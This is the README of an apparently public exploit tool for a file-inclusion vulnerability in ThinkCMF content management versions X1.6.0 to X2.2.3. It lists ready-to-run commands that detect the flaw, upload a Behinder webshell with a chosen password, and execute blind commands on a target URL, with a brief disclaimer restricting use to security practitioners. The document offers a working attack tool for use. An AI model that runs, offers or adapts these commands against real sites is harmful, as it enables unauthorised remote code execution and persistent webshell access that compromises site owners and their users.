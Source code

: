 # 说明：

本工具适用于Thinkcmf任意内容包含漏洞，提供一般检测，一键上传冰蝎马，以及无回显命令执行功能。ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

本工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。

# 适用版本：

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
ThinkCMF X2.2.3

ThinkCMF源码下载地址https://gitee.com/thinkcmf/ThinkCMFX/releases

# 使用说明:

### 显示帮助

python thinkcmf_exp.py -h 

### 检测漏洞是否存在

python thinkcmf_exp.py -u http://yourURL/
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E6%A3%80%E6%B5%8B%E6%BC%8F%E6%B4%9E.png)
### 上传冰蝎马

python thinkcmf_exp.py -u http://yourURL/ -p yourPassword

### 无回显命令执行

python thinkcmf_exp.py -u http://yourURL/ -c yourCommand
